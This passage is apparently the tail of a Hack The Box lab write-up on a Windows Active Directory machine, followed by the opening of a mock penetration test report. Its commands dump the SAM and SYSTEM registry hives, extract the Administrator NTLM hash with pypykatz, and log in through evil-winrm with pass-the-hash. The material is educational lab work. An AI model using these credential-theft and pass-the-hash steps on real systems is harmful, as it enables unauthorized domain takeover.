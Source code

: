 Download registry files:  
```bash
cd Temp
download sam
download system
```

Extract NTLM hash for Administrator:  
```bash
pypykatz registry --sam sam system
```

Login as Administrator using the NTLM hash:  
```bash
evil-winrm -i 10.10.11.35 -u 'Administrator' -H '<NTLM_HASH>'
```

Capture root flag:  
```bash
cd C:\Users\Administrator\Desktop
type root.txt
```

## Lessons Learned

- Anonymous SMB access can reveal sensitive information like passwords in text files.  
- Password reuse across accounts is a common vulnerability in AD environments.  
- `SeBackupPrivilege` can be exploited to extract critical registry data.  
- Tools like `nxc` and `evil-winrm` are effective for enumeration and lateral movement.  
- Always check scripts and configuration files for hardcoded credentials.  
- Simple misconfigurations can lead to full domain compromise.

## Penetration Test Report

**Client:** HTB

**Engagement:** Penetration Test - Windows Active Directory Environment

**Date:** June 2025

**Consultant:** Hugo Leonor

### 1. Objective

Evaluate the security of the Windows Active Directory environment at `10.10.11.35`, identifying vulnerabilities that could enable privilege escalation and infrastructure compromise, culminating in Domain Admin access.

### 2. Scope

- **Target IP:** 10.10.11.35  
- **Services:** SMB, LDAP, Kerberos, WinRM, and other standard Active Directory services  
- **Initial Access:** Anonymous SMB access  

### 3. Methodology
